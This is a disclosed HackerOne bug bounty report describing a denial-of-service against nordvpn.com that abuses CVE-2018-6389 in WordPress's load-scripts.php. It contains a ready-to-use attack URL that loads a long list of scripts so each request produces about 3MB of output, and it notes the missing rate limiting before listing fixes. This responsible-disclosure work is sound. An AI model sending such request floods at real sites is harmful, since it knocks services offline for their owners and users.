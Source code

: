 # DoS of https://nordvpn.com/ via CVE-2018-6389 exploitation

## Report Details
- **Report ID**: 752010
- **URL**: https://hackerone.com/reports/752010
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-12-05T14:58:53.260Z
- **Disclosed**: 2020-01-08T11:48:02.804Z

## Reporter
- **Username**: cassiomcampos
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nordsecurity

## Vulnerability Information
There is possibility in /wp-admin/load-scripts.php script to generate large (~3Mb) amount of data via simple non-authenticated request to server.
The vulnerability is registered as https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6389

Details
Detailed attack scenario is described for example here: https://baraktawily.blogspot.ru/2018/02/how-to-dos-29-of-world-wide-websites.html
I have an Apache JMeter script which is able to simulate necessary loading for your site (can be provided to you if necessary).

Ready for call URL is following
https://nordvpn.com/wp-admin/load-scripts.php?load=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter

{F651471}

As no rate-limiting is setup for this URL - then DoS comes real.

Variants to fix issue
change default "admin" directory name (Security through obscurity)
or apply some password protection to /wp-admin/ url
or apply some rate-limiting (but DDoS is still possible)

Other possible Fix
https://github.com/Jetserver/CVE-2018-6389-FIX

## Impact

DoS of the site and application server

## Attachments
- poc.jpeg
